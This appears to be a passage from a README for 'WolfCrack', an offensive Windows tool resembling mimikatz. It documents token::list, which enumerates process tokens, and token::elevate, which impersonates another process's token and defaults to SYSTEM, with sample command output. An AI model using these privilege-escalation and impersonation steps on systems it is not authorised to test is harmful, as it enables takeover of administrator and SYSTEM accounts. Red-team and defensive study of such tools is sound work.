 ### list
show current tokens on your server (this function loops over all the process on the server and show the unique tokens)
```
WolfCrack # token::list

User: WEBER\Administrator
Sid: S-1-5-21-2285584810-4222754310-1381224282-500
Type: Primary
Pid: 3908

User: NT AUTHORITY\SYSTEM
Sid: S-1-5-18
Type: Primary
Pid: 1220

User: WEBER\ansible
Sid: S-1-5-21-2285584810-4222754310-1381224282-1104
Type: Primary
Pid: 1572

User: Window Manager\DWM-3
Sid: S-1-5-90-3
Type: Primary
Pid: 284

User: Window Manager\DWM-2
Sid: S-1-5-90-2
Type: Primary
Pid: 2640

User: NT AUTHORITY\NETWORK SERVICE
Sid: S-1-5-20
Type: Primary
Pid: 2900

User: NT AUTHORITY\LOCAL SERVICE
Sid: S-1-5-19
Type: Primary
Pid: 304
```
Now you can impersonate to which token you choose from the list you get by using the ```WolfCrack # token::elevate /id:``` command.

### elevate
Lets you impersonate your token to one you choose from another process (if you didn't provide the /id: argument it will automatically impersonate to SYSTEM).
##### Arguments:
1) id (pid of process) \[**optional**\]
```
WolfCrack # token::elevate
[*] Successfuly impersonated

WolfCrack # token::whoami

UserName: NT AUTHORITY\SYSTEM
ImpersonationLevel: Impersonation
Sid: S-1-5-18
```
As you can see the default elevate command (without arguments) will impersonate you to be system)
```
WolfCrack # token::elevate /id:2900
[*] Successfuly impersonated
```